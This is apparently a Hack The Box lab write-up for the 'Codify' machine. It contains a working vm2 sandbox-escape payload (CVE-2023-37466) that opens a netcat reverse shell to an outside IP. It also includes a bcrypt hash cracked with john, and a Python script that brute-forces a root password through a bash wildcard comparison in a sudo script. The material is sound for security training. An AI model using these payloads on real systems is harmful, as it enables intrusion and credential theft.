 ```yaml
---
layout: post
title: Codify
date: '2023-11-07 09:13:35 +0300'
image: /assets/img/cover_images/42.png
categories: [HTB, Codify]
---
```


## MACHINE INFO

> **[Codify](https://app.hackthebox.com/machines/Codify)** is an easy linux machine which leverages a CVE on ```vm2``` and the knowledge of ```javascript``` inorder to create a script for a reverse shell and the basic of any scripting language such as ```python``` to create a custom script for privilege escalation through bruteforce attack.
{: .prompt-tip }

## ENUMERATION

```bash
nmap -sV -sC -top-ports 100 10.10.11.239
```

```bash
Nmap scan report for 10.10.11.239
Host is up (0.79s latency).
Not shown: 97 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.78 seconds
```

We add the ip to our hosts file 
```bash
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
The website allows us to run javascript code

![img-description](/assets/img/codify/1.png)

We notice the website uses vm2

![img-description](/assets/img/codify/2.png)

After searching for the exploits on vm2 i came across this [CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5) that allows RCE

We craft our payload to create [netcat bind and reverse shells](https://patchthenet.com/blog/create-bind-and-reverse-shells-using-netcat/) to connect with netcat

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.178 4242 >/tmp/f');
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

We then listen on our machine for connections

```bash
sudo nc -lnvp 4242
```

We run the code and immediately "WE ARE IN". We move to var/www/ and find a directory ```contact```. We move into the directory and find ```tickets.db```
```bash
$ cd var/www/  
$ ls
contact
editor
html
$ cd contact
$ ls
index.js
package.json
package-lock.json
templates
tickets.db
```

We use sqlite3 to get the data in users table. We find a user joshua with a hash 
```bash
$ sqlite3 tickets.db
.tables
tickets  users  
select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We crack the hash with john and find the password ```spongebob1```
```bash
john --wordlist=/usr/share/dict/rockyou.txt hash.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:01:11 DONE (2023-11-07 11:45) 0.01399g/s 19.14p/s 19.14c/s 19.14C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We connect with ssh to the machine
```bash
ssh joshua@10.10.11.239
password: spongebob1
```

## PRIVILEGE ESCALATION
We notice a script running at ```/opt/scripts/mysql-backup.sh```. The script allows us to guess the password endless times
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
We create a python script to bruteforce the password of the root
```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

```bash
joshua@codify:/tmp$ python3 brute.py
[sudo] password for joshua: 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
We switch to root and enter the password. We are now r00t
```bash
joshua@codify:/tmp$ su
Password: 
root@codify:/tmp#
```

![img-description](/assets/img/codify/3.png)
